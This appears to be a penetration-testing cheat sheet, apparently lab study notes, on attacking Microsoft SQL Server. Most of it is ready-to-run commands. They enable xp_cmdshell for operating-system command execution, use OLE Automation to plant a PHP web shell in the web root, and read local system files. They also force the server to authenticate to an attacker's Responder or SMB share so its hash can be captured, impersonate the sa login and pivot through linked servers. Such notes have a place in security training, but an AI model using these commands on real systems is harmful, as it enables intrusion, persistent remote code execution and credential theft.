 #MSSQL
Supports 2 [Auth Mechanisms](https://learn.microsoft.com/en-us/sql/connect/ado-net/sql/authentication-sql-server?view=sql-server-ver16)

|**Authentication Type**|**Description**|
|---|---|
|`Windows authentication mode`|This is the default, often referred to as `integrated` security because the SQL Server security model is tightly integrated with Windows/Active Directory. Specific Windows user and group accounts are trusted to log in to SQL Server. Windows users who have already been authenticated do not have to present additional credentials.|
|`Mixed mode`|Mixed mode supports authentication by Windows/Active Directory accounts and SQL Server. Username and password pairs are maintained within SQL Server.|

## Connect 

```cmd
sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30
```

```shell
sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h
```

```shell
mssqlclient.py -p 1433 julio@10.129.203.7 
```
Add -windows-auth or .\\ if local account
## MSSQL default system schemas/databases:

- `master` - keeps the information for an instance of SQL Server.
- `msdb` - used by SQL Server Agent.
- `model` - a template database copied for each new database.
- `resource` - a read-only database that keeps system objects visible in every database on the server in sys schema.
- `tempdb` - keeps temporary objects for SQL queries.

## Using MSSQL
show databases 
`SELECT name FROM master.dbo.sysdatabases`
Select DB 
`USE htbusers`
Show Tables
`SELECT * FROM htbusers.INFORMATION_SCHEMA.TABLES`
Show Entries 
`SELECT * FROM users`

## Execute commands 
```mssql
xp_cmdshell 'whoami'

Go
```

#### Enable xp_cmdshell
```mssql
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

-- To update the currently configured value for this feature.  
RECONFIGURE
GO
```

## Write to Files 
Need to enable [Ole Automation Procedures](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option?view=sql-server-ver16)
```mssql
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```
## Create a file 
```mssql
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```
## Read Local files 
```mssql
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```

## Capturing MSSQL Service hash
#responder
Start [Responder](https://github.com/lgandx/Responder)/ [Impacket-smbserver](https://github.com/fortra/impacket)
```shell
sudo responder -I tun0
```
```shell
sudo impacket-smbserver share ./ -smb2support
```
#### XP_DIRTREE Hash
```mssql
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO
```

#### XP_SUBDIRS Hash
```mssql
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO
```

## Impersonate Users 
Special permission named Impersonate. 
### Identify users you can impersonate 
```mssql
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
```
### Verify Current user and role  
```mssql
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go
```
### Impersonate a user 
```mssql
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```
#### Note
It's recommended to run `EXECUTE AS LOGIN` within the master DB, because all users, by default, have access to that database. If a user you are trying to impersonate doesn't have access to the DB you are connecting to it will present an error. Try to move to the master DB using `USE master`.

## Communicate with Other Databases 
[Linked servers](https://learn.microsoft.com/en-us/sql/relational-databases/linked-servers/create-linked-servers-sql-server-database-engine?view=sql-server-ver16)

Allow DB engines to execute a Transact-SQL statement. 
Search 
```mssql
1> SELECT srvname, isremote FROM sysservers
2> GO
```
Identify User used for the connection
```mssql
1> [EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]](<EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]>)
2> GO
```
